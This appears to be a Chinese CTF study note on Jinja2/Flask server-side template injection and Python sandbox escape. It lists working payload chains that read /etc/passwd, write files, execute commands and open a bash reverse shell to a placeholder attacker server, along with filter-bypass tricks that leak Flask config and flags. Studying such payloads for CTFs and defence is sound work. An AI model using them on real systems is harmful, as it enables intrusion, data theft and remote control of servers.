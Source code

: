 ```yaml
---
title: "SSTI" 
weight: 9
bookToc: true
---
```


## SSTI

SSTI = Server Side Template Injection。模版主要用于web开发中，帮助开发者将业务逻辑（如数据处理）与表现层（如页面布局）分离。当模版可控时从而引发代码注入。

主要模版引擎：
- python：jinja2、 mako、 tornado、 django
- php：smarty、 twig
- java：jade、 velocity

ctf web题目中主要考查的是python语言的SSTI，其他语言也有，但涉及的知识点可能没有python的复杂。

下面主要以python + flask（模版引擎为jinja2）来介绍，在正式介绍前，也展开说一下相关背景知识点

## jinja2 SSTI原理

SSTI与`render_template_string()`函数密不可分，如以下例子

```python
@app.route('/test')
def test():
    html = '{{12*12}}'
    return flask.render_template_string(html)
```

发现`{{ ... }}` 中的 `12*12` 被执行了；如果我们传入的参数可控，则有可能改变原有程序逻辑，实现任意代码执行。

## 沙箱逃逸

python沙箱逃逸就是在在一个严格限制的python环境中，通过绕过限制达到执行更高权限，甚至getshell的过程。

ctf web题目中最终的目的一般是执行命令或者读取文件：
- 可执行命令的模块有：`os`/`pty`/`subprocess`/`platfor`/`commands`
- 可读取文件的模块有：`file`/`open`/`codecs`/`fileinput`，`file`只能在python2中执行

思路是通过一些内建的魔术方法/属性寻找可以利用的类，相关魔术方法用：
- `__class__`: 返回对象所属的类
- `__init__`: 类的初始化方法
- `__bases__`/`__mro__`: 返回所有父类
- `__subclasses__()`: 返回所有子类
- `__globals__`: 返回全局变量字典
- `__builtins__`: 

payload如下（Python2环境下）：
```python
# 读文件
''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
object.__subclasses__()[40]('/etc/passwd').read()

# 写文件
''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil.txt', 'w').write('evil code')

# 执行命令
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('bash -i >& /dev/tcp/你的服务器地址/端口 0>&1').read()
__import__('o'+'s').system('who'+'ami')
__builtins__.__dict__['__imp'+'ort__']('os').system('whoami')
```

flask 自带的一些变量，以及绕过
```
{{ config }}
{{ request.environ }}

# 过滤了小括号
{{ url_for.__globals__ }}
{{ url_for.__globals__['current_app'].config['FLAG'] }}

{{ get_flashed_messages.__globals__['current_app'].config['FLAG'] }}


# 过滤了 class、 subclasses、 read等关键词
{{''[request.args.a][request.args.b][2][request.args.c]()}}?a=__class__&b=__mro__&c=__subclasses__


# 过滤_ 本质变成了 {{request|attr("__class__")}} 即 {{request.__class__}}
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_

# 绕过join，用format
{{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```

## 题目

{{< expand "题目 攻防世界-Web-Web_python_template_injection" "..." >}}
TODO
{{< /expand >}}


## Tplmap

https://github.com/epinna/tplmap
